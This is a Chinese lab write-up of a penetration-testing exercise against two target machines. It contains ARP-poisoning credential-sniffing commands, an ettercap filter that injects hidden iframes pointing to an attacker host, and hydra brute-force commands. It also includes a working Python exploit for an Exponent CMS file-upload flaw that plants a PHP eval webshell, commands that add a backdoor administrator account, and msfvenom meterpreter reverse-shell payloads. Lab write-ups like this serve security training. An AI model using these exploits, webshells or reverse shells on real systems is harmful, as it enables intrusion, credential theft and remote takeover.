实验的网络拓扑结构：kali是攻击机，另外两台是靶机




## 任务一 使用nmap,ettercap进行网络侦查和密码嗅探

ettercap使用

常用参数

-   \-l 显示可用网卡
-   \-i 选择网卡
-   \-t 协议选择，tcp/udp/all
-   \-p 不进行毒化攻击，只用来嗅探
-   \-F 载入过滤器文件
-   \-V text 将数据包以文本形式显示在屏幕上

`ettercap -Tzq` 以命令行显示，只嗅探本地数据包，只显示捕捉到的用户名和密码以及其他信息

具体到这个实验，需要使用ettercap去捕获ftp登陆的用户名和口令。其中，192.168.1.3 开放了ftp端口，所以尝试多次之后

```
ettercap -i eth1 -Tq -L sniffeddata -M arp:remote //192.168.1.3/21//
```



然后就抓到密码了



ettercap过滤脚本学习：

```
 if (ip.proto == TCP && ip.dst != '192.1.1.200' && tcp.dst == 80 || tcp.dst == 8080) { 
     #...and if it contains an Accept-Encoding header... 
     if (search(DATA.data, "Accept-Encoding")) { 
     #...remove any Encoding (make sure we are using plain text) 
     replace("Accept-Encoding", "Accept-Nothing!");   
     }   
 }   
 #--Inject Iframe--   
 if (ip.proto == TCP && ip.dst != '192.1.1.200' && tcp.src == 80 || tcp.src == 8080) {   
    if (search(DATA.data, "<body>")){   
        #Replace it with the body tag and an iframe to our attacking webpage   
        replace("<body>","<body><iframe src='http://192.1.1.200' width=0 height=0 />");   
        msg("iframe injected after <body>\n");   
    }   
    if (search(DATA.data, "<BODY>")){   
        replace("<BODY>","<BODY><IFRAME SRC='http://192.1.1.200' width=0 height=0 />");   
        msg("iframe injected after <BODY>\n");   
    }   
}
```

第一部分的作用是将HTTP请求头中的Accept-Encoding部分替换掉，使WebServer返回的数据是原始数据，而不是经过压缩（如gzip）后的数据，方便我们嗅探分析。第二部分的作用是查找返回数据中的和标签，并在它后面添加一个iframe标签。

基本语法

```
Ettercap的过滤规则只有经过编译之后才能由-F参数载入到ettercap中使用。
编译过滤规则的命令是：
etterfilter filter.ecf -o filter.ef。
即把filter.ecf文件编译成ettercap能识别的filter.ef文件。
过滤规则的语法与C类似，但只有if语句，不支持循环语句。需要注意的地方是，if与”(”之间必须要有一个空格，且大括号{}不能省略。
Ettercap提供的一些常用的函数有：
search(where, what) 从字符串where中查找what，若找到则返回true
regex(where, regex) 从字符串where中匹配正则表达式regex，若找到则返回true
replace(what, with) 把字符串what替换成字符串with
log(what, where) 把字符串what记录到where文件中
msg(message) 在屏幕上显示出字符串message
exit() 退出
```

（当然这里不用这么复杂啦

## 任务二 使用crunch，hydra暴力破解ssh服务

crunch的基本用法

\*　　-b #体积大小，比如后跟20mib  
\*　　-c #密码个数（行数），比如8000  
\*　　-d #限制出现相同元素的个数（即至少出现元素个数），-d 3就不会出现zzf ffffgggg之类的  
\*　　-e #定义停止生成密码 ，比如-e 222222：到222222停止生成密码  
\*　　-f #调用密码库文件，比如/usr/share/crunch/charset.lst  
\*　　-i #改变输出格式  
\*　　-l #与-t搭配使用  
\*　　-m #与-p搭配使用  
\*　　-o #保存为  
\*　　-p #定义密码元素  
\*　　-q #读取字典  
\*　　-r #定义从某一个地方重新开始  
\*　　-s #第一个密码，从xxx开始  
\*　　-t #定义输出格式

hydra爆破的用法

-   破解ssh

`hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh`

-   破解ftp

`hydra ip ftp -l 用户名 -P 密码字典 -t线程(默认16) -vV`

-   破解rdp

`hydra ip rdp -l administrator -P pass.txt -V`

-   破解telnet

`hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V`

当然这里我们直接社工吧。。hacker123

## 任务三 使用ssh登陆

不说了。。ssh命令了解一下即可

## 任务四 获取目标网站的webshell权限，控制目标机，获得敏感信息

这是exponent cms的漏洞，百度就知道了

[https://www.anquanke.com/post/id/84514](https://www.anquanke.com/post/id/84514)

简单来说就是对上传没做过滤可以任意文件上传，但是上传之后就会被删掉

(看上去挺安全的，其实23333，引狼入室犯了安全大忌)

在判断的时候，可以通过修改参数来实现绕过删除

绕过删除之后，由于文件被重命名了，所以需要爆破一下文件名，使用脚本能够比较方便的完成

```python
import requests
base_url='http://192.168.1.4/'
url_for_time='index.php?module=eventregistration&action=eventsCalendar'
url_for_upload='index.php?module=eventregistration&action=emailRegistrants&email_addresses=123456789@123.com&email_message=1&email_subject=1'

files={'attach':open('index.php','rb')}

requests.post(base_url+url_for_upload,files=files)

print 'upload finish'

r=requests.get(base_url+url_for_time)
html1=r.content
#print html1
index=r.content.find('History.pushState')
if index:
    time=html1[index:index+60].split('rel')[1].split('\'')[1]
else:
    print 'something wrong'
    exit(0)
print "get time:"+ time

for i in range(int(time),int(time)-20,-1):
    shell_url=base_url+'tmp/'+str(i)+'_index.php'
    r2=requests.get(shell_url)
    if r2.status_code==200:
        print "shell is here : "+shell_url
```

准备一个index.php

```php
root@simpleedu:~# cat index.php
<?php
eval($_REQUEST[cmd]);
phpinfo();?>
```

(为了验证上传成功，多加个phpinfo())

自动上传，爆破得到文件名



然后就是添加用户，将用户添加到用户组

```
net user hacker Beijing123 /add
net localgroup administrators hacker /add
```

看一下端口开放情况



这里。。比较坑的就是远程桌面并不是3389，而是。。。35155

```
rdesktop 192.168.1.4:35155
```

连接之后即可，发现 `2.key` 文件，给它添加一个用户即可



太卡了就不演示了

## ps 使用metasploit做法

一开始由于找不到图形界面，所以只能用命令行去刚。最后还是屈服了(GUI真香)

msfvenom生成php马

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f raw  -o index.php
```



然而美中不足的是权限不够，所以需要再生成一个Windows的木马反弹一次。。

重新开始监听，换一个payload



msfvenom 生成shell.exe

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f exe -o shell.exe
```

传一下shell.exe



执行，成功反弹



当然这样也能获得管理员权限，但是还是没法读文件



也就是记录一下msf的强大
